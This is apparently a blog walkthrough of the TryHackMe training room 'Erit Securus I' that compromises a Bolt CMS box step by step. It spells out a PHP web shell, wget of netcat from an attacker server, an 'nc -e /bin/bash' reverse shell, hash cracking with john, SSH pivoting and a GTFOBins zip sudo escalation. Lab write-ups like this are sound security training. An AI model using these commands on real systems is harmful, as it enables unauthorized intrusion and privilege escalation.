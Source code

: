 ```yaml
---
layout: post
title: "Erit Securus I - TryHackMe"
date: 2020-07-20
excerpt: "Walkthrough for Erit Securus I on TryHackme"
tags: [Erit Securus I, TryHackMe,pivoting, bolt cms]
comments: false
---
```



Erit Securus I is an easy rated difficulty box on [TryHackMe](https://www.tryhackme.com). Below are the steps taken to compromise this system.

### Task 1

Task 1 just requires you to deploy the box and confirm that you have started it up.

### Task 2

Task 2 asks you to scan the box, running **nmap -A [machine ip]** provides you with the answers to **Question 1** and **Question 2**.

![Erit Securus nmap](/assets/img/EritSecurus1.png)

### Task 3

There is only one question to answer for this task, which asks you what CMS is being utilized. This can be found by opening up the website in your browser and scrolling to the bottom of the page.

![Erit Securus CMS type](/assets/img/EritSecurus2.png)

### Task 4

Task 4 asks you to download an [exploit](https://github.com/r3m0t3nu11/Boltcms-Auth-rce-py). **Question 1** asks what language the exploit is coded in. Reviewing the exploit itself tells you what language it is coded in on line 1 of the exploit.

![Erit Securus exploit language](/assets/img/EritSecurus3.png)

**Question 2** asks you to find the login page to bolt. This can be found in the exploit on line 44 of the exploit code. You are also provided with credentials to login with in the hint for this question.

![Erit Securus bolt login page](/assets/img/EritSecurus4.png)

### Task 5

Save the exploit code to your attacker machine. Next, go to the directory where you saved the exploit, and run **python3 exploit.py http://[machine ip] username password**. The username and password were provided in the previous Task's hint. Once connected, run either **whoami** or **id** to get the username to answer **Question 1**.

![Erit Securus bolt exploit](/assets/img/EritSecurus5.png)

Next, follow the steps mentioned in the room to establish a reverse shell. First, run **echo '\<?php system($_GET["c"]);?\>'\>c.php**. This creates a file named **c.php** which you can use to send system commands through.

![Erit Securus c.php](/assets/img/EritSecurus6.png)

Next, open another terminal window on your attacker machine and run **ln -s $(which nc)**. This will be used to link netcat to the current directory.

![Erit Securus netcat link](/assets/img/EritSecurus7.png)

Next, run **python3 -m http.server** to serve up an http server that will be used by the victim machine to pull over netcat.

![Erit Securus python3 http server](/assets/img/EritSecurus8.png)

Next, navigate to **http://[machine ip]/files/c.php?c=whoami** to see if your php file you created a few lines above works as expected, it should return a result of www-data.

![Erit Securus whoami](/assets/img/EritSecurus9.png)

Next, change the command above from whoami to **wget http://[attackerip]:8000/nc**.

![Erit Securus wget nc](/assets/img/EritSecurus10.png)

 Nothing will show up in the browser window, but if you look at your python http server, you should see that a file (nc) was transferred to the victim computer.

![Erit Securus wget download nc](/assets/img/EritSecurus11.png)

Create a netcat listener on our attacker pc with **nc -nvlp [port number]**.

![Erit Securus nc listener](/assets/img/EritSecurus12.png)

Now, change the URL on the victim machine from the wget command to **http://[machine ip]/files/c.php?c=chmod 755 nc** to make netcat an executable on the victim machine.

![Erit Securus chmod](/assets/img/EritSecurus13.png)

You will not see any confirmation that the permissions were changed on this file. However, we should now be able to run nc on the victim computer with **http://[machine ip]/files/c.php?c=./nc -e /bin/bash [attacker ip] [port nc is listening on]**. You should now have a connection on your attacker computer.

![Erit Securus bash shell](/assets/img/EritSecurus14.png)

Now, let's get a nicer shell by running **python -c 'import pty; pty.spawn("/bin/sh")'**.

![Erit Securus python shell](/assets/img/EritSecurus15.png)

### Task 6

Now that we have a reverse shell, run **cd /var/www/html/app/database** to get into the directory the bolt database is in as specified in the directions.

![Erit Securus database](/assets/img/EritSecurus16.png)

Next, run **sqlite3 bolt.db** to open the database. Then run **.tables** to list the tables. Last, let's enumerate the users with **SELECT * from bolt_users;**

![Erit Securus database user enumeration](/assets/img/EritSecurus17.png)

We currently have the credentials for admin, but not for wildone. Copy the entire hash (between the second and third | characters) and save it to a file. I saved it to a file named erithashes.txt. Next, run **john erithashes.txt -wordlist=/usr/share/wordlists/rockyou.txt**. This will crack the password for wildone, which is the answer to **Question 1** for this task.

![Erit Securus wildone password](/assets/img/EritSecurus18.png)

Next, follow the provided instructions and run **su wileec** and enter the password you just cracked.

![Erit Securus wileec user](/assets/img/EritSecurus19.png)

Next, type in **cd /home/wileec**, followed by **ls**, and then **cat flag1.txt** to get the answer to **Question 2**.

![Erit Securus flag1.txt](/assets/img/EritSecurus20.png)

### Task 7

Next, let's follow the directions provided and run **ssh wileec@192.168.100.1** from our current session as wileec to pivot to another machine.

![Erit Securus ssh](/assets/img/EritSecurus21.png)

Next, run **sudo -l** to see what privileges can be ran as sudo, which is the answer to **Question 1**.

![Erit Securus sudo -l](/assets/img/EritSecurus22.png)

### Task 8

Lets look at [GTFOBins](https://gtfobins.github.io/) to see what ways we can escalate with the command listed in sudo -l. Looking up this command will show you a way to elevate privileges with sudo. Enter the following commands to elevate privileges: **TF=$(mktemp -u)** followed by **sudo -u jsmith zip $TF /etc/hosts -T -TT 'sh #'**.

![Erit Securus gtfobins zip su jsmith](/assets/img/EritSecurus23.png)

Next, run **cd ..** followed by **cd jsmith** to get into jsmith's home directory and then run **ls -al** to list the contents, there is a second flag here. View the flag with **cat flag2.txt**. This is the answer to **Question 1** for Task 8.

### Task 9

Let's run **sudo -l** as jsmith and see what commands they can potentially run as root.

![Erit Securus jsmith sudo -l](/assets/img/EritSecurus25.png)

What they can run as sudo is the answer to **Question 1**. Next, there are numerous ways to gain root, but the easiest way is with **sudo su root**. From here run **cd /root** followed by **ls**. Run **cat flag3.txt** to get the final flag and the answer to **Question 2** to finish this challenge!

![Erit Securus flag3.txt](/assets/img/EritSecurus26.png)
